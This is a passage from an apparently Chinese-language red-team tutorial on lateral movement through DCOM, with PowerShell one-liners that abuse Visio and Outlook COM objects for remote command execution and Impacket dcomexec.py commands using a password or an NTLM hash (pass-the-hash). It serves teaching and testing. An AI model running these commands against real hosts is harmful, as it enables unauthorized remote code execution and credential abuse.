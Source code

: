 5、调用 Visio.Application 远程执行命令

> 前提是目标安装了 Visio

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","192.168.7.7"))
$com.[0].Document.Application.shellExecute("calc.exe")
或者
[activator]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","192.168.7.7")).[0].Document.Application.shellExecute("calc.exe")
```

6、调用 Outlook.Application 远程执行命令

> 前提是目标安装了 Outlook

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","192.168.7.7"))
$com.createObject("Shell.Application").shellExecute("192.168.7.7")
或者
[activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","192.168.7.7")).createObject("Shell.Application").shellExecute("calc.exe")
```

### dcomexec.py 脚本

Impacket 工具包里也提供了 DCOM 的利用脚本，该脚本可以提供一个类似于 wmiexec.py 脚本的半交互式 shell，不过使用的是 DCOM

dcomexec.py 脚本目前支持 MMC20.Application、ShellWindows 和 ShellBrowserWindow 对象。

```
python3 dcomexec.py teamssix.com/administrator:1qaz@WSX@192.168.7.7
```

或者只执行一条命令

```
python3 dcomexec.py teamssix.com/administrator:1qaz@WSX@192.168.7.7 ipconfig
```

如果只知道 hash 也可以用 hash 去连接

```
python3 dcomexec.py teamssix.com/administrator@192.168.7.7 -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210904110328.png)

> 参考文章：
>
> [https://cloud.tencent.com/developer/article/1752145](https://cloud.tencent.com/developer/article/1752145)
>
> [https://www.freebuf.com/articles/network/261454.html](https://www.freebuf.com/articles/network/261454.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
